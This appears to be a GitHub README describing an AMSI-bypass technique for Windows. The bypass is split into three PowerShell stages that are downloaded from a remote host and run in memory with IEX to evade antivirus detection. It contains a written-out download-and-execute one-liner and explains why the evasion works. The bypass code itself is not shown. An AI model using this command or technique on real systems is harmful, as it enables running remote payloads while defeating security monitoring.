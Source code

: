 ### AMSI Bypass Using Script Splitting and In-Memory Execution

This repository demonstrates a technique to bypass **AMSI (Antimalware Scan Interface)** by splitting a PowerShell script into multiple files and loading them into memory. This approach helps evade signature-based detection used by antivirus (AV) solutions.

#### Steps Performed:
1. **Code Development**:
   - Created a PowerShell script designed to bypass AMSI.
   - Split the script into three separate files: `stage_1.ps1`, `stage_2.ps1`, and `stage_3.ps1`.

2. **Script Execution**:
   - Used the `IEX` (Invoke-Expression) command to download and execute each script in memory:
     ```powershell
     IEX (New-Object System.Net.WebClient).DownloadString("http://IP/stage_1.ps1"); IEX (New-Object System.Net.WebClient).DownloadString("http://IP/stage_2.ps1"); IEX (New-Object System.Net.WebClient).DownloadString("http://IP/stage_3.ps1"); MagicBypass;
     ```
   - This method avoids writing malicious code to disk, making it harder for AV tools to detect.

3. **In-Memory Execution**:
   - By loading the scripts directly into memory, the bypass technique remains stealthy and effective against traditional file-based detection mechanisms.

#### Why This Works:
- **Script Splitting**: Dividing the code into smaller files helps evade signature-based detection, as the individual files may not match known malicious patterns.
- **In-Memory Execution**: Executing code in memory avoids leaving traces on disk, reducing the chances of detection by AV solutions.
- **Obfuscation**: The use of `IEX` and remote loading adds an additional layer of obfuscation.

**Disclaimer**: This technique is for educational purposes only and should be used responsibly in authorized environments.
**Reference**: https://github.com/V-i-x-x/AMSI-BYPASS
